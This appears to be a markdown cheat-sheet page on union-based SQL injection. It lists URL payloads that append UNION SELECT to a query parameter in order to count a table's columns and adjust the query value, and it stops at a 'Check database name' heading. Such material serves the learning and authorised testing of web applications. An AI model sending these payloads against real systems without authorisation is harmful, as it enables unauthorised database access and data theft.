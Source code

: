 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SQL Injection

## <mark style="color:blue;">Union-Based</mark>

Use SQL UNION operator to return additional results to the page, letting the extraction of large amounts of data.

### Case 1

* Determinating number of colums

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$value UNION SELECT 1
$url/query?$column=$value UNION SELECT 1,2   #Try with a extra value
$url/query?$column=$value UNION SELECT 1,2,3 #Try Until theres no message error
#This won't shows message error when number of columns coincide  
```
{% endcode %}

***

* Change query value

<pre class="language-sql" data-overflow="wrap" data-line-numbers><code class="lang-sql"><strong>$url/query?$column=$changedvalue UNION SELECT $found
</strong><strong>#Change until no results are shown to determine value
</strong></code></pre>

{% hint style="info" %}
`$found` is the union value that have been caught in previous step
{% endhint %}

***

* Check database name
